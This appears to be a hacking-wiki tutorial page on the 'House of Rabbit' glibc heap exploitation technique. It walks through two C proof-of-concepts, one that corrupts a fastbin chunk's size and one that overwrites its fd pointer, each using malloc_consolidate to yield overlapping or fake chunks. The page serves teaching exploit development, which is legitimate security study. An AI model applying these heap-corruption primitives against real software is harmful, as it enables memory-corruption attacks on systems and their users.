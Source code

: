 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

### Requirements

1. **Ability to modify fast bin fd pointer or size**: This means you can change the forward pointer of a chunk in the fastbin or its size.
2. **Ability to trigger `malloc_consolidate`**: This can be done by either allocating a large chunk or merging the top chunk, which forces the heap to consolidate chunks.

### Goals

1. **Create overlapping chunks**: To have one chunk overlap with another, allowing for further heap manipulations.
2. **Forge fake chunks**: To trick the allocator into treating a fake chunk as a legitimate chunk during heap operations.

## Steps of the attack

### POC 1: Modify the size of a fast bin chunk

**Objective**: Create an overlapping chunk by manipulating the size of a fastbin chunk.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```

We allocate two chunks of 0x40 bytes each. These chunks will be placed in the fast bin list once freed.

* **Step 2: Free Chunks**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```

We free both chunks, adding them to the fastbin list.

* **Step 3: Modify Chunk Size**

```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```

We change the size metadata of `chunk1` to 0xa1. This is a crucial step to trick the allocator during consolidation.

* **Step 4: Trigger `malloc_consolidate`**

```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk triggers the `malloc_consolidate` function, merging small chunks in the fast bin. The manipulated size of `chunk1` causes it to overlap with `chunk2`.

After consolidation, `chunk1` overlaps with `chunk2`, allowing for further exploitation.

### POC 2: Modify the `fd` pointer

**Objective**: Create a fake chunk by manipulating the fast bin `fd` pointer.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```

**Explanation**: We allocate two chunks, one smaller and one larger, to set up the heap for the fake chunk.

* **Step 2: Create fake chunk**

```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```

We write fake chunk metadata into `chunk2` to simulate smaller chunks.

* **Step 3: Free `chunk1`**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
```

**Explanation**: We free `chunk1`, adding it to the fastbin list.

* **Step 4: Modify `fd` of `chunk1`**

```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```

**Explanation**: We change the forward pointer (`fd`) of `chunk1` to point to our fake chunk inside `chunk2`.

* **Step 5: Trigger `malloc_consolidate`**

```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk again triggers `malloc_consolidate`, which processes the fake chunk.

The fake chunk becomes part of the fastbin list, making it a legitimate chunk for further exploitation.

### Summary

The **House of Rabbit** technique involves either modifying the size of a fast bin chunk to create overlapping chunks or manipulating the `fd` pointer to create fake chunks. This allows attackers to forge legitimate chunks in the heap, enabling various forms of exploitation. Understanding and practicing these steps will enhance your heap exploitation skills.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

